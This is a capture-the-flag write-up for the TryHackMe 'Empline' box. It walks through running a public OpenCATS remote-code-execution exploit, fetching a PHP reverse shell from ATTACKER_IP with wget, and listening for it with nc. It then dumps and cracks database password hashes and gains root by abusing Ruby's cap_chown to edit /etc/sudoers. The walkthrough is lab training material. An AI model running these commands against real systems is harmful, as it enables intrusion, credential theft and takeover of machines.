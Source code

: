 ```yaml
---
layout: post
title:  "Empline Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/empline){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

## Enumeration
### Port Scan
As always let's start with a port scan
```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```
![rust-scan](/images/empline/empline-rustscan1.png)
![rust-scan2](/images/empline/empline-rustscan2.png)

There are only two ports open
- 22: SSH
- 80: HTTP

### Subdomains
> Did you fully investigate the homepage?

By investigating the web page source on port 80 
we see the following

![subdomain](/images/empline/empline-subdomain.png)

Let's add this to `/etc/hosts` so we can access the new
subdomain

```
VICTIM_IP job.empline.thm empline.thm
```

![jobs-home](/images/empline/empline-jobs-empline-home.png)

## Initial Foothold
> Are there public exploits for this service?

Let's check searchsploit for some exploits

```bash
searchsploit opencat
```

![searchsploit](/images/empline/empline-searchsploit.png)

Remote code execution is enticing, let's pull it and 
read the source

```bash
searchsploit -m 50585
cat 50585.sh
```

![exploit-src](/images/empline/empline-exploit-source.png)

Basically we provide a target and it'll upload a shell! 
Let's try it out

```bash
sh 50585.sh http://job.empline.thm/
```

![shell](/images/empline/empline-shell1.png)

It works! Only issue is we can't change directories and 
this isn't a full shell. For a better experience I'll 
upload a 
[php reverse shell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```bash
# attacker machine, with shell.php in this directory
python3 -m http.server 80

# victim machine
wget http://ATTACKER_IP/shell.php
pwd
# /var/www/opencats/upload/careerportaladd

# attacker, listen
nc -lvnp 4444
```

We can see the directory `/upload/careerportaladd` so 
let's append that to the URL to run the shell

```
http://job.empline.thm/upload/careerportaladd/shell.php
```

Visit this site and we'll have a shell!

![php shell](/images/empline/empline-www-data-shell.png)

Stabilize and upgrade the shell with python3

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> What other places could credentials be stored?

Now we'll investigate php config files

```bash
cat /var/www/opencats/config.php | grep DATABASE
```

![db-creds](/images/empline/empline-db-creds.png)

With these creds we can check for available usernames 
and passwords

```bash
mysql -u james -p
```

```sql
use opencats;
select user_name, password from user;
```

![db-dump](/images/empline/empline-db-dump.png)

Now lets check if any of these hashes have been 
cracked before using 
[this website](https://crackstation.net/){:target="_blank"}{:rel="noopener noreferrer"}

![cred-crack](/images/empline/empline-cracks.png)

We have a hit! This password is reused by george so let's 
switch accounts and continue

![george-shell](/images/empline/empline-george-shell.png)

## Root
> Are there any files with interesting permissions 
> or capabilities?

```bash
getcap -r / 2>/dev/null
```

![get-cap](/images/empline/empline-getcap.png)

Ruby has the cap_chown capability which allows it to 
change the ownership of files! To abuse this I referred to
[hacktricks for a template](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown){:target="_blank"}{:rel="noopener noreferrer"}

Let's give sudo permissions to george. First make 
`/etc/sudoers` writable by george

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/etc/sudoers")'
```

Add this to `/etc/sudoers`

```
%george ALL=(ALL:ALL) ALL
```
![sudoers-edit](/images/empline/empline-george-sudoers.png)

The sudoers file needs to be owned by root to function 
correctly, so let's revert these permissions

```bash
ruby -e 'require "fileutils"; FileUtils.chown(0, 0, "/etc/sudoers")'
```

If everything is set up correctly we should now be able 
to run `sudo` as george

```bash
sudo bash
```

![root-shell](/images/empline/empline-root-shell.png)

## Recap
Homepage inspection leads to a subdomain hosting a career 
service vulnerable to remote code execution. This 
initial foothold gives us access to php configuration 
files with database credentials. Horizontal escalation 
is achieved by cracking passwords from the database. 
Ruby is given the change ownership capability allowing 
us to modify system files, giving our user root 
permissions.
